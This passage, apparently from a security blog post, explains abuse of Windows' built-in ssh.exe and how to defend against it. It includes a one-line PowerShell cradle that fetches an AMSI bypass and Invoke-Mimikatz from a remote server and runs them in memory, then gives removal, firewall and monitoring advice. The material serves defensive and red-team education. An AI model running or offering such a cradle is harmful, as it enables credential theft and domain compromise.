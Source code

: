     > ```
    > ssh user@server "command arg arg2 ..."
    > ```
    
    Essentially you can use this to cradle your AMSI bypass with a malicious script like so (this again can also be bundled into the Lnk file or a malicious macro):
    
    > ```
    > IEX (ssh user@server "/usr/bin/cat /home/user/amsibypass.ps1"); IEX (ssh user@server "/usr/bin/cat /home/user/invoke-mimikatz.ps1")
    > ```
    

## How to secure this?

1. 1. **Removing the SSH client:** It is recommended to remove the builtin SSH client for non-technical staff. It can be done by first removing the SSH client with Settings’ > ‘Apps’ > ‘Optional Features’ > Search for “OpenSSH” and hit Uninstall then reboot. It however is still in System32. Uninstalling the SSH client from the endpoint is not yet complete after this, as described in the PTP blog post. To further remove the binaries:
        
        > ```
        > takeown /F C:\Windows\System32\OpenSSH /R /D Y
        > icacls C:\Windows\System32\OpenSSH /grant administrators:F /T
        > rmdir /s C:\Windows\System32\OpenSSH
        > ```
        
    2. **Secure the corporate firewall settings:** Even if the SSH client is no longer present in the endpoint, the attacker could still move a LOLBin version (signed by Microsoft) onto the user endpoint, or operate from an internal Linux /Mac machine for example. The first order of business is of course blocking outbound TCP connections on port 22 if it is not needed. I’m no firewall expert but for firewalls that support application level operations, SSL stripping with protocol inspection should be performed on ports not meant for SSH (443 and so on) and block connections where the protocols are not matched. There are probably no good recommendations from me for clients who need to allowlist Microsoft ASN IP or Azure subdomains for SSH access unfortunately. If the reader has good ideas on this by all means let me know!
    3. **Monitor for the user endpoints for the SSH binary being called:** For non-technical staff, the SSH & SCP binaries have little reason to be called at all. A custom alert could be written fire off when SSH.exe or SCP.exe is called (optionally, with filehash matching as well).

In summary, SSH.exe has been bundled with Windows 10, 11 & Windows Server since late 2017 and signed by Microsoft. The reverse dynamic proxy is very powerful and there are a number of tricks that can be used to punch through corporate firewalls to get a reliable tunnel for offensive tooling to compromise entire AD domains. Defenders are recommended to watch for invocation of this binary on endpoints used by non-technical users, or uninstall the feature entirely.
